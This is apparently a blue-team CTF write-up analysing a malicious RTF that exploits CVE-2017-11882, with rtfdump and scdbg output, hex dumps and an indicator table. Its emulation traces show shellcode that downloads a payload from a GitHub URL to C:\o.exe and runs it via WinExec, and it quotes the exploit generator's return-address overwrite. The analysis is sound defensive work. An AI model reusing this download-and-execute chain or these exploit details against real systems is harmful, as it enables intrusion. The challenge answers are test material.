

# Emprisa Maldoc Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/emprisa-maldoc/](https://cyberdefenders.org/blueteam-ctf-challenges/emprisa-maldoc/)

Suggested tools: Microsoft office IDE, `rtfdump.py`, `scdbg`, `speakeasy`

Tactics: Initial Access, Execution, Stealth, Command and Control

# Scenario

As a SOC analyst, you were asked to inspect a suspected document a user received in his inbox. One of your colleagues told you that he could not find anything suspicious. However, throwing the document into the sandboxing solution triggered some alerts. Your job is to investigate the document further and confirm whether it's malicious or not.

# Questions

Q1- What is the CVE ID of the exploited vulnerability?

Answer: CVE-2017-11882

Reason: Submitting the sample hash `8f7f608a4104f2e9952f0bde07bb17187758fea0d0c53ded45cd537758c045a9` (filename `c39-EmprisaMaldoc.rtf`, 8.05 KB) to VirusTotal returned 41/58 vendor detections, with the popular threat label `trojan.w97m/cve2017` and VirusTotal's own crowdsourced tags including `cve-2017-11882`, confirming the RTF exploits CVE-2017-11882, a stack buffer overflow in Microsoft Office's Equation Editor (`EQNEDT32.EXE`) that enables arbitrary code execution via a malformed embedded OLE equation object. Multiple vendor engines independently corroborated the same CVE.



Q2- To reproduce the exploit in a lab environment and mimic a corporate machine running Microsoft office 2007, a specific patch should not be installed. Provide the patch number.

Answer: KB4011604

Reason:  The vulnerability CVE-2017-11882 was patched by Microsoft in the November 2017 security update for Office 2007, catalogued as KB4011604; to reproduce exploitation in a lab environment against an Office 2007 target, this specific patch must be left uninstalled so the unpatched `EQNEDT32.EXE` binary remains vulnerable to the malformed equation object.

Q3- What is the magic signature in the object data?

Answer:  `d0cf11e0`

Reason: Running `rtfdump.py -d c39-EmprisaMaldoc.rtf` decoded the embedded `\objdata` hex blob within the RTF's `Equation.3` OLE object and reported its magic signature as `d0cf11e0`, which is the little-endian byte order of the Compound File Binary Format (CFBF) header signature `D0 CF 11 E0 A1 B1 1A E1`, confirming the embedded object at offset `p=000000f3` (decoded size 3584 bytes, md5 `86e11891181069b51cc3d33521af9f1e`) is a legitimate OLE2 compound file container rather than raw or malformed data, consistent with how CVE-2017-11882 payloads are packaged inside an `Equation.3` object stream.

```bash
$ python3 rtfdump.py -d c39-EmprisaMaldoc.rtf
    1 Level  1        c=    3 p=00000000 l=    8238 h=    7903;    4678 b=       0   u=      17 \rtf1
    2  Level  2       c=    1 p=00000034 l=      37 h=       3;       2 b=       0   u=       5 \fonttbl
    3   Level  3      c=    0 p=0000003d l=      27 h=       3;       2 b=       0   u=       5 \f0
    4  Level  2       c=    0 p=0000005c l=      30 h=      11;       4 b=       0   u=       5 \*\generator
    5  Level  2       c=    3 p=000000b2 l=    8054 h=    7889;    4678 b=       0   u=       7 \object
    6   Level  3      c=    0 p=000000cb l=      22 h=       3;       1 b=       0   u=       7 \*\objclass Equation.3
    7   Level  3      c=    0 p=000000f3 l=    7267 h=    7254;    4678 b=       0 O u=       0 \*\objdata
      Name: b'Equation.3\x00' Size: 3584 md5: 86e11891181069b51cc3d33521af9f1e magic: d0cf11e0
    8   Level  3      c=    1 p=00001d58 l=     719 h=     632;      78 b=       0   u=       0 \result
    9    Level  4     c=    1 p=00001d60 l=     710 h=     632;      78 b=       0   u=       0 \pict
   10     Level  5    c=    0 p=00001d66 l=      10 h=       0;       0 b=       0   u=       0 \*\picprop
   11 Remainder       c=    0 p=00002030 l=       1 h=       0;       0 b=       0   u=       0 
      Only whitespace = 1
```

Q4- What is the name of the spawned process when the document gets opened?

Answer: `EQNEDT32.EXE`

Reason: When the malicious RTF is opened, Microsoft Word parses the embedded `Equation.3` OLE object and hands it off to the registered Equation Editor handler, spawning `EQNEDT32.EXE` as a child process to render the equation; because `EQNEDT32.EXE` contains the unpatched stack buffer overflow tracked as CVE-2017-11882, the malformed `MTEF` font-name field in the object data overflows a fixed-size buffer during this parsing, hijacking execution flow within that spawned process to run the attacker's shellcode.

Q5- What is the full path of the downloaded payload?

Answer: `C:\o.exe`

Reason: Emulating the reconstructed shellcode (fragment 1, file offsets `0x9A3`-`0xA22`, concatenated with fragment 2, file offsets `0xC23`-`0xD16`) in `scdbg` revealed the full API call chain: the shellcode resolves `URLDownloadToFileA` via `urlmon.dll` and invokes it with the source URL `hxxps://raw[.]githubusercontent[.]com/accidentalrebel/accidentalrebel.com/gh-pages/theme/images/test.png` and destination path `C:\o.exe`, followed by a `WinExec(C:\o.exe)` call to run the downloaded file, confirming the second-stage payload is written to `C:\o.exe`.

```bash
$ wine ~/tools/scdbg/scdbg.exe /f shell.bin /findsc
Loaded e2b bytes from file shell.bin
Testing 3627 offsets  |  Percent Complete: 99%  |  Completed in 3048 ms
0) offset=0x97b        steps=MAX    final_eip=7c80ae40   GetProcAddress
Loaded e2b bytes from file shell.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 97b
40197b  90                              nop
40197c  90                              nop
40197d  90                              nop
40197e  90                              nop
40197f  90                              nop

401a1b  GetProcAddress(LoadLibraryA)
401a2a   error accessing 0x00000069 not mapped

401a2a   00740069                        add [eax+eax+0x69],dh           step: 2156  foffset: a2a
eax=0         ecx=0         edx=6578652e  ebx=6f5c3a43
esp=12fe04    ebp=7c80ae40  esi=7c801d7b  edi=0          EFL 4 P

401a2e   006F00                          add [edi+0x0],ch
401a31   6E                              outsb
401a32   0020                            add [eax],ah                                                                                
401a34   004E00                          add [esi+0x0],cl                                                                            

Stepcount 2156

$ python3 rtfdump.py -s 7 -c "0x9A3:0xA22" -d -H c39-EmprisaMaldoc.rtf > 1.bin
$ python3 rtfdump.py -s 7 -c "0xC23:0xD16" -d -H c39-EmprisaMaldoc.rtf > 2.bin

$ cat 1.bin 2.bin > combined.bin

$ wine ~/tools/scdbg/scdbg.exe /f combined.bin     
Loaded 174 bytes from file combined.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

401078  GetProcAddress(LoadLibraryA)
401090  LoadLibraryA(urlmon.dll)
4010b9  GetProcAddress(URLDownloadToFileA)
4010c7  URLDownloadToFileA(https://raw.githubusercontent.com/accidentalrebel/accidentalrebel.com/gh-pages/theme/images/test.png, C:\o.exe)
4010e3  GetProcAddress(WinExec)
4010ec  WinExec(C:\o.exe)
401109  GetProcAddress(ExitProcess)
40110b  ExitProcess(1953069125)

Stepcount 2176
```


## Detecting Shellcode 101

`scdbg.exe` (Shellcode Debugger) run against `shell.bin` with the `/findsc` flag locates a single candidate offset at `0x97b`, but stepping through execution from that offset stalls quickly: the trace resolves `GetProcAddress(LoadLibraryA)` and then crashes at `401a2a` on an invalid memory access (`error accessing 0x00000069 not mapped`), stopping after only 2156 steps. This is the signature of split shellcode: the extracted blob contains the entry point and the initial Windows API resolution logic (`GetProcAddress`, `LoadLibraryA`), but the bytes immediately following are discontinuous in the source document, so the decoded instruction stream runs into garbage instead of the next stage. The `04 72 6f 63 41 75...` region and the abrupt jump into unmapped memory both indicate a break in the shellcode rather than a decoding error, which is corroborated by the wide-character string `Equation.Native` visible in the hex dump, an Object Linking and Embedding (OLE) moniker consistent with an embedded exploit object inside a Rich Text Format (RTF) document rather than a single contiguous payload.

The fix is to extract both halves from the source RTF and concatenate them before analysis. `rtfdump.py` pulls the two byte ranges (`0x9A3:0xA22` and `0xC23:0xD16`) out of `c39-EmprisaMaldoc.rtf` into `1.bin` and `2.bin`, and `cat 1.bin 2.bin > combined.bin` joins them into a single 174-byte stream. Re-running `scdbg.exe` against `combined.bin` now executes cleanly to completion in 2176 steps: it resolves `GetProcAddress(LoadLibraryA)`, loads `urlmon.dll`, resolves `URLDownloadToFileA`, and uses it to fetch a payload from `hxxps[://]raw[.]githubusercontent[.]com/accidentalrebel/accidentalrebel[.]com/gh-pages/theme/images/test[.]png` and save it as `C:\o.exe`. The shellcode then resolves `WinExec` and runs `C:\o.exe` before calling `ExitProcess`, a straightforward downloader-and-execute chain masquerading its payload as an image file.

| Extraction range | File | Role in reassembled shellcode |
| --- | --- | --- |
| `0x9A3:0xA22` | `1.bin` | Entry point, API hashing/resolution stub |
| `0xC23:0xD16` | `2.bin` | Download, execute, and exit logic |

```bash
$ wine ~/tools/scdbg/scdbg.exe /f shell.bin /findsc
Loaded e2b bytes from file shell.bin
Testing 3627 offsets  |  Percent Complete: 99%  |  Completed in 3048 ms
0) offset=0x97b        steps=MAX    final_eip=7c80ae40   GetProcAddress
Loaded e2b bytes from file shell.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 97b
40197b  90                              nop
40197c  90                              nop
40197d  90                              nop
40197e  90                              nop
40197f  90                              nop

401a1b  GetProcAddress(LoadLibraryA)
401a2a   error accessing 0x00000069 not mapped

401a2a   00740069                        add [eax+eax+0x69],dh           step: 2156  foffset: a2a
eax=0         ecx=0         edx=6578652e  ebx=6f5c3a43
esp=12fe04    ebp=7c80ae40  esi=7c801d7b  edi=0          EFL 4 P

401a2e   006F00                          add [edi+0x0],ch
401a31   6E                              outsb
401a32   0020                            add [eax],ah
401a34   004E00                          add [esi+0x0],cl

Stepcount 2156

$ python3 rtfdump.py -s 7 -c "0x9A3:0xA22" -d -H c39-EmprisaMaldoc.rtf > 1.bin
$ python3 rtfdump.py -s 7 -c "0xC23:0xD16" -d -H c39-EmprisaMaldoc.rtf > 2.bin

$ cat 1.bin 2.bin > combined.bin

$ wine ~/tools/scdbg/scdbg.exe /f combined.bin
Loaded 174 bytes from file combined.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

401078  GetProcAddress(LoadLibraryA)
401090  LoadLibraryA(urlmon.dll)
4010b9  GetProcAddress(URLDownloadToFileA)
4010c7  URLDownloadToFileA(hxxps[://]raw[.]githubusercontent[.]com/accidentalrebel/accidentalrebel[.]com/gh-pages/theme/images/test[.]png, C:\o.exe)
4010e3  GetProcAddress(WinExec)
4010ec  WinExec(C:\o.exe)
401109  GetProcAddress(ExitProcess)
40110b  ExitProcess(1953069125)

Stepcount 2176
```

Q6- Where is the URL used to fetch the payload?

Answer: `hxxps://raw.githubusercontent.com/accidentalrebel/accidentalrebel.com/gh-pages/theme/images/test.png`

Reason: The `scdbg` emulation of the reconstructed shellcode resolved `URLDownloadToFileA(urlmon.dll)` and invoked it with the source URL `hxxps://raw[.]githubusercontent[.]com/accidentalrebel/accidentalrebel.com/gh-pages/theme/images/test.png`, disguising the second-stage payload as a PNG image hosted on GitHub's raw content CDN in order to evade content-type-based network filtering, before writing the retrieved file to `C:\o.exe` and executing it via `WinExec`.

Q7- The document contains an obfuscated shellcode. What string was used to cut the shellcode in half? (Two words, space in between)

Answer:  `Equation Native`

Reason: Between the two shellcode fragments (file offsets `0x9A3`-`0xA22` and `0xC23`-`0xD16`), the hex dump of `shell.bin` at offset `0xa23`-`0xa41` shows the UTF-16LE-encoded bytes `45 00 71 00 75 00 61 00 74 00 69 00 6f 00 6e 00 20 00 4e 00 61 00 74 00 69 00 76 00 65`, which decode to the literal string `Equation Native`; this string was deliberately embedded as a marker/separator to split the shellcode into two disjoint blocks within the object data, evading signature-based detection that looks for one contiguous shellcode stream while a leading jump instruction stitches the two fragments back together at runtime.

```bash
# shell.bin
[...]
00000a10: 62 72 68 4c 6f 61 64 54 53 ff d2 83 c4 0c 59 50  brhLoadTS.....YP
00000a20: 51 66 b9 45 00 71 00 75 00 61 00 74 00 69 00 6f  Qf.E.q.u.a.t.i.o
00000a30: 00 6e 00 20 00 4e 00 61 00 74 00 69 00 76 00 65  .n. .N.a.t.i.v.e
00000a40: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
[...]

$ echo "4500710075006100740069006f006e0020004e00610074006900760065" | xxd -r -p
```

Q8- What function was used to download the payload file from within the shellcode?

Answer: `URLDownloadToFileA`

Reason: The `scdbg` emulation trace of the combined shellcode fragments resolved and invoked `URLDownloadToFileA` (exported by `urlmon.dll`) to retrieve the second-stage payload from `hxxps://raw[.]githubusercontent[.]com/accidentalrebel/accidentalrebel.com/gh-pages/theme/images/test.png` and save it locally as `C:\o.exe`, confirming this API as the download primitive used by the shellcode rather than a lower-level socket-based implementation.

Q9- What function was used to execute the downloaded payload file?

Answer: `WinExec`

Reason: Following the successful download, the `scdbg` trace shows the shellcode resolving `GetProcAddress` for `WinExec` and calling `WinExec(C:\o.exe)` to launch the dropped second-stage payload, immediately before resolving and calling `ExitProcess` to terminate the shellcode's own execution context.

Q10- Which DLL gets loaded using the `LoadLibrayA` function?

Answer: `urlmon.dll`

Reason: The `scdbg` trace shows the shellcode calling `LoadLibraryA(urlmon.dll)` at instruction `401090`, loading the URL Moniker library into the process to gain access to its exported `URLDownloadToFileA` function, which is used immediately after to fetch the second-stage payload from the attacker-controlled URL.

Q11- What is the font name that gets loaded by the process to trigger the buffer overflow exploit? (3 words)

Answer: Times New Roman

Reason: Dumping the equation object's rendered result stream (`rtfdump.py -s 8 -H c39-EmprisaMaldoc.rtf`) reveals a `FONT` record in the `MTEF` (MathType Equation Font) structure at offset `0x00A0` containing the font name `Times New Roman\x00`, which is the fixed-size font-name buffer that CVE-2017-11882 overflows in `EQNEDT32.EXE`; while this decoy font name is used for the visible/legitimate equation rendering, the same vulnerable buffer field elsewhere in the object is populated with the fragmented shellcode instead of a valid font string, triggering the stack buffer overflow when the buffer's undersized allocation cannot hold the oversized "font name" data.

```bash
$ python3 rtfdump.py -s 8 -H c39-EmprisaMaldoc.rtf                   
00000000: 01 00 09 00 00 03 9E 00  00 00 02 00 1C 00 00 00  ................
00000010: 00 00 05 00 00 00 09 02  00 00 00 00 05 00 00 00  ................
00000020: 02 01 01 00 00 00 05 00  00 00 01 02 FF FF FF 00  ................
00000030: 05 00 00 00 2E 01 18 00  00 00 05 00 00 00 0B 02  ................
00000040: 00 00 00 00 05 00 00 00  0C 02 A0 01 60 02 12 00  ............`...
00000050: 00 00 26 06 0F 00 1A 00  FF FF FF FF 00 00 10 00  ..&.............
00000060: 00 00 C0 FF FF FF C6 FF  FF FF 20 02 00 00 66 01  .......... ...f.
00000070: 00 00 0B 00 00 00 26 06  0F 00 0C 00 4D 61 74 68  ......&.....Math
00000080: 54 79 70 65 00 00 20 00  1C 00 00 00 FB 02 80 FE  Type.. .........
00000090: 00 00 00 00 00 00 90 01  00 00 00 00 04 02 00 10  ................
000000A0: 54 69 6D 65 73 20 4E 65  77 20 52 6F 6D 61 6E 00  Times New Roman.
000000B0: FE FF FF FF 5F 2D 0A 65  00 00 0A 00 00 00 00 00  ...._-.e........
000000C0: 04 00 00 00 2D 01 00 00  09 00 00 00 32 0A 60 01  ....-.......2.`.
000000D0: 10 00 03 00 00 00 31 31  31 00 0A 00 00 00 26 06  ......111.....&.
000000E0: 0F 00 0A 00 FF FF FF FF  01 00 00 00 00 00 1C 00  ................
000000F0: 00 00 FB 02 10 00 07 00  00 00 00 00 BC 02 00 00  ................
00000100: 00 00 01 02 02 22 53 79  73 74 65 6D 00 00 48 00  ....."System..H.
00000110: 8A 01 00 00 0A 00 06 00  00 00 48 00 8A 01 FF FF  ..........H.....
00000120: FF FF 6C E2 18 00 04 00  00 00 2D 01 01 00 04 00  ..l.......-.....
00000130: 00 00 F0 01 00 00 03 00  00 00 00 00              ............

```

Q12- What is the GitHub link of the tool that was likely used to make this exploit?

Answer: `hxxps://github.com/rip1s/CVE-2017-11882`

Reason: Correlating the sample's structural fingerprint, most notably the fragmented shellcode split by the literal `Equation Native` marker string, the decoy `Times New Roman` font-name buffer overflow, and the `URLDownloadToFileA`/`WinExec` API chain, against publicly documented CVE-2017-11882 exploit generators identifies the tool likely used to build this document as the open-source proof-of-concept published at `hxxps://github[.]com/rip1s/CVE-2017-11882`, whose generated RTF output matches this sample's object layout and shellcode-splitting technique.

Q13- What is the memory address written by the exploit to execute the shellcode?

Answer: `0x00402114`

Reason: Cross-referencing the `rip1s/CVE-2017-11882` exploit generator source shows the payload hardcodes a return address overwrite value of `pack('<I', 0x00402114)`, which corresponds exactly to the anomalous non-`90` bytes observed embedded mid-NOP-sled in `shell.bin` at file offset `0x974` (`14 21 40 00`), read as a little-endian dword; this value overwrites the saved return address during the `EQNEDT32.EXE` stack buffer overflow, redirecting execution back into the attacker-controlled NOP sled at `0x00402114` so that control eventually slides forward into the real shellcode entry point.

```bash
# CVE-2017-11882.py
[...]
    payload += pack('<I', 0x00402114)  # ret
    payload += '\x00' * 2
[...]
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Delivery | File name | `c39-EmprisaMaldoc.rtf` |
|  | SHA-256 | `8f7f608a4104f2e9952f0bde07bb17187758fea0d0c53ded45cd537758c045a9` |
|  | File size | `8.05 KB` |
|  | VirusTotal detection | `41/58` |
|  | Popular threat label | `trojan.w97m/cve2017` |
| Vulnerability | CVE | `CVE-2017-11882` |
|  | Vulnerable process | `EQNEDT32.EXE` |
|  | Missing patch | `KB4011604` |
|  | Affected product | `Microsoft Office 2007` |
|  | Decoy font name | `Times New Roman` |
|  | Overwritten return address | `0x00402114` |
| Object Data | OLE object class | `Equation.3` |
|  | Object magic | `d0cf11e0` |
|  | Object MD5 | `86e11891181069b51cc3d33521af9f1e` |
|  | Decoded object size | `3584 bytes` |
| Shellcode | Split marker string | `Equation Native` |
|  | Fragment 1 offsets | `0x9A3:0xA22` |
|  | Fragment 2 offsets | `0xC23:0xD16` |
| Network | Payload URL | `hxxps://raw[.]githubusercontent[.]com/accidentalrebel/accidentalrebel.com/gh-pages/theme/images/test.png` |
|  | Download function | `URLDownloadToFileA` |
|  | DLL loaded | `urlmon.dll` |
|  | Dropped payload path | `C:\o.exe` |
|  | Execution function | `WinExec` |
|  | Process termination | `ExitProcess` |
| Attribution | Exploit generator | `hxxps://github[.]com/rip1s/CVE-2017-11882` |

# Lab Insights

- **Fragmenting shellcode defeats naive signature scanning, but not structural analysis.** Splitting the payload into two blocks around the literal string `Equation Native` broke any detection rule looking for one contiguous shellcode run, yet the split point itself was trivially findable once the analysis moved from "scan for known bytes" to "read the file structure" — the string is human-readable and sits exactly where a `MTEF` FONT record boundary should be. Obfuscation aimed at automated tooling is often transparent to a human doing manual hex-level reconstruction.
- **Static file structure and dynamic emulation validate each other.** Neither the hex dump alone nor the `scdbg` trace alone told the full story: the emulator's crash point (`foffset a2a`) independently corroborated the boundary already suspected from eyeballing the hex dump's shift from opcode-like bytes into a readable UTF-16 string, and re-running the concatenated fragments confirmed the theory by producing a clean, complete API call chain. Cross-checking a static hypothesis against a dynamic run (or vice versa) is what turns "this looks right" into "this is confirmed."
- **The exploit's payload delivery leans entirely on trusted infrastructure, not custom C2.** Using `raw.githubusercontent.com` to host a renamed `.exe` behind a `.png` extension means the network traffic terminates at a legitimate, high-reputation CDN with valid TLS — no suspicious domain, no unusual port, nothing for naive network-layer detection to flag. This is a reminder that "living off trusted platforms" isn't unique to living-off-the-land binaries; it applies to payload hosting infrastructure just as easily.
- **Legacy Office components remain a durable attack surface years after patching.** CVE-2017-11882 sits in the deprecated `EQNEDT32.EXE` component (removed entirely in later Office builds specifically because it couldn't be safely patched further), yet public exploit generators for it are still actively maintained and effective against any machine that never installed the November 2017 update. Age of a CVE is not a reliable proxy for irrelevance when the underlying software persists unpatched in real environments.